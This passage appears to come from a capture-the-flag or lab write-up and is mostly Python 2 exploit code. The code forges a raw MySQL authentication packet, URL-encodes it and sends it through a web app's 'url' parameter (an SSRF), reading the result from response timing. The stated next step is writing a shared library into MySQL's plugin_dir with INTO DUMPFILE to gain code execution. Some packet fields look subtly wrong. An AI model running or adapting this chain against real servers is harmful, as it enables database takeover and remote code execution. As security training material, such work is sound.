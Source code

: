 Now we'll utilise `SELECT foo INTO DUMPFILE location` to move our shared library on the server's `plugin_dir` directive.

```python
import requests, struct

host, port = 'localhost', 1337
HOST = 'http://%s:%d/' % (host, port)

execute = lambda packet: requests.post(HOST, {'url': packet}).elapsed.total_seconds() > 0.4

def construct_handshake_response(user):
	connects_atrs_data = b''

	connect_attrs = {
		'_os': 'Linux',
		'_client_name': 'libmysql',
		'_pid': '1337',
		'_client_version': '5.7.29',
		'_platform': '_x86_64',
		'program_name': 'mysql'
	}

	for name, value in connect_attrs.items():
		connects_atrs_data += struct.pack('B', len(name)) + name    # len(CLIENT_CONNECT_ATTRS_name) + CLIENT_CONNECT_ATTRS_name
		connects_atrs_data += struct.pack('B', len(value)) + value  # len(CLIENT_CONNECT_ATTRS_value) + CLIENT_CONNECT_ATTRS_value

	connect_attrs_data = struct.pack('B', len(connects_atrs_data)) + connects_atrs_data # len(CLIENT_CONNECT_ATTRS)	+ CLIENT_CONNECT_ATTRS

	auth_response_packet = [
		0xa3 + len(user) - 4, 0x00, 0x00,                           # payload_length           int<3>
		0x01,                                                       # sequence_id              int<1>
		0x85, 0xa6, 0x3f, 0x20,                                     # capability_flags         int<4> SELECT * FROM performance_schema.session_connect_attrs WHERE processlist_id = CONNECTION_ID();
		0x00, 0x00, 0x00, 0x01,                                     # max_packet_size          int<4>
		0x08,                                                       # character_set            int<1>
		] + list(xrange(23)) + [                                    # reserved                 string[23]
		] + list(bytearray(user)) + [                               # username                 string[NUL]
		0x00,                                                       # length of auth-response  int<1>
		0x00,                                                       # auth-response            string[n]
		] + list(bytearray('mysql_native_password')) + [            # auth plugin name         string[NUL]
		0x00                                                        # null terminated
		] + list(bytearray(connect_attrs_data))                     # client_connect_attrs                           

	return ''.join(map(lambda x: '{:02x}'.format(x), list(auth_response_packet)))

def encode(data):
	packet = ''
	for i in range(len(data) / 2):
		packet += '%' + data[2*i:2*(i+1)]
	return unicode(packet)
```